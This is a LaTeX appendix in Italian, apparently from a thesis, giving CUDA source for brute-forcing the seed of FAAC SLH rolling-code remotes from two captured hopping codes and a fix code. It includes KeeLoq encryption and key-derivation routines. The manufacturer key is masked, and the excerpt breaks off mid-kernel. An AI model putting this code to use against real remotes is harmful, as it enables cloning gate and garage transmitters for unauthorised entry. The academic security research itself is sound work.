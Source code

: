 \chapter{Brute-forcer del seed di FAAC SLH in CUDA}
\label{appendix:cuda}

Di seguito è riportato il codice in CUDA dell'algoritmo di brute forcing del seed di FAAC SLH. Tale algoritmo assume che due chiavi normali in sequnza siano state catturate e ne prende in input i due code hop ed il code fix.
\begin{lstlisting}[language=C++,showstringspaces=false]
#include <cstdlib>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>
#include <cuda_runtime.h>

#define MFKEY 0xXXXXXXXXXXXXXXXX // Qui va la Manufacturer Key
#define KEELOQ_NLF 0x3A5C742E
#define bit(x, n) (((x) >> (n)) & 1)
#define g5(x, a, b, c, d, e) (bit(x, a) + bit(x, b) * 2 + \\
          bit(x, c) * 4 + bit(x, d) * 8 + bit(x, e) * 16)

__device__ uint32_t keeloq_encrypt_device(uint32_t data, uint64_t key) {
    uint32_t x = data;
    for (int r = 0; r < 528; r++) {
        x = (x >> 1) ^ ((bit(x, 0) ^ bit(x, 16) ^ (uint32_t)bit(key, r & 63) ^
                         bit(KEELOQ_NLF, g5(x, 1, 9, 20, 26, 31))) << 31);
    }
    return x;
}

__device__ uint64_t faac_learning_device(uint32_t seed, uint64_t key) {
    uint16_t hs = seed >> 16;
    const uint16_t ending = 0x544D;
    uint32_t lsb = (uint32_t)hs << 16 | ending;
    uint64_t man = (uint64_t)keeloq_encrypt_device(seed, key) << 32 |
                             keeloq_encrypt_device(lsb, key);
    return man;
}

struct Result {
    bool found;
    uint32_t seed;
    uint32_t count;
};

__global__ void find_sequence_chunk_kernel(
    uint32_t first_hop,
    uint32_t second_hop,
    uint64_t mfkey,
    uint32_t fix,
    uint32_t start_seed,
    uint32_t end_seed,
    Result *result) {
    uint32_t seed = blockIdx.x * blockDim.x + threadIdx.x + start_seed;
    if (seed > end_seed || result->found) return;

    uint64_t man = faac_learning_device(seed, mfkey);
    uint8_t fixx[8];
    int shiftby = 32;
    for (int i = 0; i < 8; i++) {
        fixx[i] = (fix >> (shiftby -= 4)) & 0xF;
    }

    uint32_t prev_hop = keeloq_encrypt_device(fixx[6] << 28 |
                        fixx[7] << 24 | fixx[5] << 20 | 0xFFFFF, mfkey);


\end{lstlisting}
